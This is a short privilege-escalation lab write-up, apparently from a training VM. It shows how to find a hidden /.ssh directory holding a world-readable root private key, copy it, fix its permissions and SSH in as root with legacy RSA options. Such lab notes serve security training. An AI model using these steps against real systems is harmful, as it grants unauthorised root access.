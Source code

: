 Sometimes users make backups of important files but fail to secure them with the correct permissions.

**Look for hidden files & directories in the system root:**
```python
ls -la /
```

**Note that there appears to be a hidden directory called ".ssh". View the contents of the directory:**
```python
ls -l /.ssh
```
- Note that there is a world-readable file called **root_key**. Further inspection of this file should indicate it is a private SSH key. The name of the file suggests it is for the root user.

**Copy the key over to your Kali box (it's easier to just view the contents of the "root_key" file and copy/paste the key) and give it the correct permissions, otherwise your SSH client will refuse to use it:**
```python
chmod 600 root_key
```

**Use the key to login to the Debian VM as the root account (note that due to the age of the box, some additional settings are required when using SSH):**
```python
ssh -i root_key -oPubkeyAcceptedKeyTypes=+ssh-rsa -oHostKeyAlgorithms=+ssh-rsa root@10.10.42.82
```

## Practically - 
### In target machine - 
![[linux_privesc26.png]]

### In attacker machine - 
![[linux_privesc27.png]]
